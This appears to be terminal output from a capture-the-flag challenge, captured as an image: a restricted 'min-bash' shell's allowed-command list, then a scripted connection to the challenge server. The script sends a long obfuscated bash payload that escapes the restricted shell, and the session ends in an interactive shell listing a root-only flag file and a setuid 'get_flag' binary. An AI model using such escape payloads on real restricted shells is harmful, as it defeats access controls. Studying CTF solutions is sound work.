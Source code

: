 ```
touch
true
which

/usr/bin:
awk
base64
basename
clear
cmp
env
expr
find
groups
head
id
realpath
rev
seq
sort
split
sum
tail
tee
touch
uniq
wc
which
whoami
min-bash> $ 
Shell>
[+] Opening connection to 35.198.107.77 on port 1337: Done
payload is: ${!#}<<<${!#}\<\<\<${!#}\\\<\\\<\\\<${!#}\\\\\\\<\\\\\\\<\\\\\\\<\\\\\\\$\\\\\\\'\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\\\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)$#\\\\\\\\\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\\\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)$#\\\\\\\\\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\'
current pid: 9
current pid: 10
current pid: 11
...
current pid: 50
current pid: 51
current pid: 52
sending exploit
[*] Switching to interactive mode
min-bash> total 80
drwxr-xr-x   2 root root 4096 Dec 28 12:47 bin
drwxr-xr-x   2 root root 4096 Oct 16 07:46 boot
drwxr-xr-x   5 root root  340 Dec 30 01:46 dev
drwxr-xr-x  34 root root 4096 Dec 30 01:46 etc
-r--------   1 root root   54 Dec 15 12:35 flag
-r-sr-xr-x   1 root root 8904 Dec 27 14:40 get_flag
drwxr-xr-x   2 root root 4096 Oct 16 07:46 home
drwxr-xr-x   8 root root 4096 Nov 16 12:56 lib
drwxr-xr-x   2 root root 4096 Nov 16 12:56 lib64
```